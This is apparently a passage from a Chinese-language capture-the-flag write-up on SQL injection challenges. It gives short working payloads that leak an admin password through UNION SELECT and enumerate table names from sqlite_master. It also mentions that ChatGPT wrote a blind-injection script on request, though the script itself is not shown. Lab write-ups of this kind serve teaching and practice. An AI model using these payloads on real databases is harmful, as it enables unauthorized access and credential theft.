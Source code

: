 ## 思路

就是通过联合查询，泄露admin的password，这个password就是flag。



## exp

```
admin" UNION SELECT password FROM users--
```



# 14-SQLi 4

## 问题描述





## exp

第一步

```
admin"  UNION SELECT name FROM sqlite_master WHERE type='table'--
```

第二步

```
admin" union select password from users_7444461681 where username = "admin"--
```



# 15-SQLi 5

## 问题描述

不会回显的sql注入。



## 思路

只能sql blind injection（盲注）



## exp

这个脚本是chatgpt给我写的，而且就问了一次就写成。太牛逼了。
